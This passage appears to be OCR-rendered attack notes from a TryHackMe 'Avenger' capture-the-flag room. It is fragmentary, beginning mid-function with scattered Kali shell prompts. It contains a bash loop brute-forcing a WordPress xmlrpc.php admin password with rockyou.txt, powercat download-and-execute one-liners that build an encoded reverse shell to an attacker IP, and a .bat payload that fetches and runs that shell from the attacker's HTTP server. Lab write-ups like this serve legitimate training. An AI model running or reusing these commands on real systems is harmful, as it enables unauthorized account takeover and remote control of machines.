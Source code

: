     echo $xmlFile > file4.xml

    response=$(curl -s -X POST "http://avenger.tryhackme/gift/xmlrpc.php" -d@file4.xml -d@file.xml)

    if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
        echo -e "\n[+] La contraseña para el usuario admin es $password"
        exit 0
    fi

}

# Leer cada contraseña del wordlist y probarla
cat /usr/share/wordlists/rockyou.txt | while read password; do
  createXML $password
done












https://github.com/besimorhino/powercat


 LHOST=10.8.211.1
                                                                        
┌──(0xb0b㉿kali)-[~/Documents/tryhackme/avenger]
└─$ LPORT=49731
                                                                        
┌──(0xb0b㉿kali)-[~/Documents/tryhackme/avenger]
└─$ rshell=shell-49731.txt


└─$ pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /home/0xb0b/Documents/tryhackme/avenger/$rshell




# Crear el archivo

pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 10.8.163.249 -p 1234 -e cmd.exe -ge" > /home/kali/Downloads/avenger/shell.txt


┌──(kali㉿kali)-[~/Downloads/avenger]
└─$ nano exp.bat



START /B powershell -c $code=(New-Object System.Net.Webclient).DownloadString('http://10.8.163.249:8000/shell.txt');iex 'powershell -E $code'



└─$ python3 -m http.server  -b ip
